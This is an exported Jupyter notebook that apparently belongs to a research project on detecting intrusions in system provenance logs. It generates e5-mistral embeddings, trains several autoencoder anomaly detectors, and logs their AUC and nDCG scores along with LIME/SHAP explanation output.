c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Special tokens have been added in the vocabulary, make sure the associated word embeddings are fine-tuned or trained.
Loading checkpoint shards: 100%|██████████| 7/7 [00:19<00:00,  2.80s/it]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'clean' (LIME Weight: +0.0002)
    [i] No MITRE mapping found.
 -> 'event' (LIME Weight: +0.0001)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'admin' (LIME Weight: +0.0001)
    [i] No MITRE mapping found.

Calculating SHAP values (Optimized speed...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> '/c' (Anomaly Impact: +0.0003)
    [i] No MITRE mapping found.
 -> 'lean' (Anomaly Imp

### 3. Embedding generation using `intfloat/e5-mistral-7b-instruct` 
- inferior to `multilingual-e5-large`

#### Embedding generation

In [ ]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel, PreTrainedModel, BitsAndBytesConfig

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'intfloat/e5-mistral-7b-instruct'

# 4-bit quantization shrinks the model to ~4.5GB.
# A batch size of 8 is highly efficient and safe for 16GB VRAM.
BATCH_SIZE = 8

# [SPEED FIX] Dropped from 2048 to 512. 
# This instantly doubles processing speed while retaining plenty 
# of context for critical log event data.
MAX_SEQ_LENGTH = 512

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

# Monkey patch for legacy transformer version compatibility
if not hasattr(PreTrainedModel, "all_tied_weights_keys"):
    PreTrainedModel.all_tied_weights_keys = property(lambda self: [])

print(f"Loading model: {MODEL_NAME} (4-Bit Quantized + Flash Attention)...")

# Setup 4-bit Quantization Configuration
quant_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_compute_dtype=torch.float16, 
    bnb_4bit_use_double_quant=True,       
    bnb_4bit_quant_type="nf4"             
)

# Load Tokenizer & Model
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)
model = AutoModel.from_pretrained(
    MODEL_NAME, 
    quantization_config=quant_config,
    device_map=device,
    attn_implementation="flash_attention_2"  # [SPEED FIX] Hardware acceleration
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: LAST TOKEN POOLING
# ==========================================
def last_token_pool(last_hidden_states, attention_mask):
    """
    Extracts the embedding from the last token.
    Required for e5-mistral-7b-instruct (Decoder-only architecture).
    """
    left_padding = (attention_mask[:, -1].sum() == attention_mask.shape[0])
    
    if left_padding:
        return last_hidden_states[:, -1]
    else:
        sequence_lengths = attention_mask.sum(dim=1) - 1
        batch_size = last_hidden_states.shape[0]
        return last_hidden_states[torch.arange(batch_size, device=last_hidden_states.device), sequence_lengths]

def get_mistral_embeddings(text_list, model, tokenizer, batch_size=1):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        raw_batch = text_list[i : i + batch_size]
        
        # [CRITICAL LOGIC FIX] 
        # E5-Mistral strictly requires the EOS token at the end of every sequence 
        # for last-token pooling to work correctly.
        batch_texts = [text + tokenizer.eos_token for text in raw_batch]
        
        # Tokenize with strict MAX_SEQ_LENGTH to prevent memory spikes
        batch_dict = tokenizer(
            batch_texts, 
            max_length=MAX_SEQ_LENGTH, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # Pool: Extract embedding from the EOS token we just appended
            embeddings = last_token_pool(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            # Instantly move to CPU to free up VRAM
            all_embeddings.extend(embeddings.cpu().float().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            # [SPEED FIX] Smart Batching: Sort sentences by length to eliminate padding math
            df['seq_len'] = df['sentence'].astype(str).apply(len)
            df = df.sort_values('seq_len').reset_index(drop=True)
            
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_mistral_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            # Drop the temporary length column and append embeddings
            df = df.drop(columns=['seq_len'])
            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            
        finally:
            # [CRITICAL OOM FIX] Force flush the VRAM after every chunk
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_e5_mistral"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save E5-Mistral chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_e5_mistral.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All E5-Mistral data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Using device: CUDA
Loading model: intfloat/e5-mistral-7b-instruct (FP16)...


`torch_dtype` is deprecated! Use `dtype` instead!
c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\keras\src\export\tf2onnx_lib.py:8: FutureWarning: In the future `np.object` will be defined as the corresponding NumPy scalar.
  if not hasattr(np, "object"):
Fetching 2 files:   0%|          | 0/2 [00:00<?, ?it/s]

#### Train test split

In [3]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your E5-Mistral generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_e5_mistral" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_e5_mistral"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing E5-Mistral suffixes
    key_name = filename.replace(".pkl", "").replace("_e5_mistral", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR E5-MISTRAL!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_e5_mistral
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_e5_mistral.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_e5_mistral\5dir\train\ProcessAll.pkl and final_train_test_split_e5_mistral\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_e5_mistral.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_e5_mistral\5dir\train\ProcessEvent.pkl and final_train_test_split_e5_mistral\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_e5_mistral.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 4096), Test: (2223, 4096)
  ✓ Saved to: final_train_test_split_e5_mistr

#### Training AEs and saving `.pth` files

In [1]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for E5-Mistral
BASE_DIR = "final_train_test_split_e5_mistral"
RESULTS_FILE = "results_all_autoencoders_e5_mistral.csv"
MODEL_SAVE_DIR = "saved_weights_e5_mistral"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL UPDATE] Mistral-7B based models use 4096 dimensions
INPUT_DIM = 4096    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9338 | nDCG: 0.3226 (DCG: 1.3724, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.8961 | nDCG: 0.3208 (DCG: 1.3647, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9537 | nDCG: 0.4254 (DCG: 1.81, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.8889 | nDCG: 0.316 (DCG: 1.3445, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.6739 | nDCG: 0.2263 (DCG: 0.9629, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.761 | nDCG: 0.2436 (DCG: 1.0364, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.9094 | nDCG: 0.3206 (DCG: 1.3641, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9117 | nDCG: 0.3209 (DCG: 1.3653, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9421 | nDCG: 0.3324 (DCG: 1.4141, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9379 | nDCG: 0.3196 (DCG: 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.997 | nDCG: 0.8805 (DCG: 18.4359, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.9012 | nDCG: 0.3986 (DCG: 8.3462, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.505 | nDCG: 0.3503 (DCG: 7.3352, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.972 | nDCG: 0.5411 (DCG: 11.3301, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8878 | nDCG: 0.388 (DCG: 8.1234, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.8846 | nDCG: 0.3873 (DCG: 8.1094, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.8639 | nDCG: 0.3903 (DCG: 8.1715, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.8957 | nDCG: 0.3977 (DCG: 8.3263, IDCG: 20.9387)
    -> Training LST

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "e5_mistral" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] intfloat/e5-mistral-7b-instruct uses 4096 dimensions
INPUT_DIM = 4096 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
